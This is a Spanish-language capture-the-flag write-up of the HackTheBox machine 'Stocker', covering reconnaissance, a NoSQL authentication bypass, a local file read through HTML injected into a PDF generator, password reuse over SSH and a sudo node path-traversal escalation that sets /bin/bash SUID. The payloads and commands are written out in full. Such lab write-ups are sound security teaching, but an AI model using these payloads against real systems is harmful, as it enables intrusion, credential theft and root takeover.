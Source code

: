 ```yaml
---
layout: single
title: Stocker - HackTheBox
excerpt: " Stocker is an easy level machine in which we abuse nosql payloads with JSON, and which contains privilege escalation abusing javascript code. "
date: 2023-01-10
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-stocker/stocker.jpg
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:
  - mongodb
  - javascript
  - ssh
---
```


"Stocker" is an easy level machine in which we abuse nosql payloads with JSON, and which contains privilege escalation abusing javascript code.

# Summary
- IP: 10.129.135.230
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	-  80 -> nginx 1.18.0

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

```bash
$sudo nmap -p22,80 -sCV 10.10.116.216 -oN targeted
``` 

- Análisis de directorios web con gobuster:

```bash
$gobuster dir -u stocker.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 200
```

- No encontramos nada relevante, así que buscando si hay subdominios por detrás:

```bash
$gobuster vhost -u stocker.htb -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 200
```

- Encontramos el subdomino "dev.stocker.htb" accedemos y vemo un panel de login; intentamos bypassear con SQLi pero no funciona, así que intentamos con payloads NoSQL; como ninguna se ejecuta, probamos inyectar código json con ayuda de burpsuite en el repeater, primero ejecutando el siguiente payload:

#### Autenticación Bypass con Json: (Content-Type: application/json)

```json
#in JSON

{"username": {"$ne": null}, "password": {"$ne": null} }

```

- Nos redirecciona a "/stocks", en donde podemos elegir productos al carrito y recibir un comprobando de los productos comprados en forma de PDF, este procesamiento de texto al PDF nos redirecciona a "/api/códigodecompra" lo que nos hace sospechar de algún api del cual podríamos aprovechar para inyectar comandos y tener un LFI; buscamos en HackTricks ataque "XSS (Dynamic PDF)" y encontramos lo siguiente:

```html
To read local file:

<iframe src=file:///etc/passwd width=800px height=1000px ></iframe>
```

- Interceptamos con burpsuite a la hora de emitir el comprobando del carrito de compra para verificar los campos que procesan el pdf e inyectamos el anterior comando en el título de alguno de los productos:

```html
"title":"<iframe src=file:///etc/passwd width=800px height=1000px ></iframe>",
```

- Vemos el archivo /etc/passwd, confirmando así  el LFI y enumerando los usuarios existentes en el servidor; ahora como sabemos que el subdominio es "dev" podemos imaginar que existirá un directorio "/var/www/dev/index.js" el cual comúnmente contiene información relevante como la de la base de datos que opera por detrás, así que de la misma forma examinamos este archivo:

```html
"title":"<iframe src=file:///var/www/dev/index.js width=800px height=1000px ></iframe>",
```

- Comprobamos que existe el archivo "index.js" y vemos que hay una credencial que parece corresponder a la base de datos MongoDB; probamos esta credencial para acceder por SSH como el usuario "angoose" por si existe reutilización de contraseñas:

```bash
$ssh angoose@10.129.135.230
```

- Entramos y vemos la primera flag.

# Escalando privilegios:


- Comprobamos privilegios como sudoers y vemos que podemos ejecutar el siguiente binario:

```
/usr/bin/node /usr/local/scripts/*.js
```

- Es decir, podemos ejecutar el binario "node" como root, para ejecutar cualquier archivo .js ubicado en el directorio "/usr/local/scripts/", sabiendo esto, podríamos crear un script .js que modifique los permisos de la bash a SUID para posteriormente ejecutarlo con privilegios de root:

```
nano pwned.js
```

```js
require('child_process').exec('chmod u+s /bin/bash')
```

```bash
sudo node /usr/local/scripts/../../../home/angoose/pwned.js
```

- Comprobamos que somos root y obtenemos la última flag.
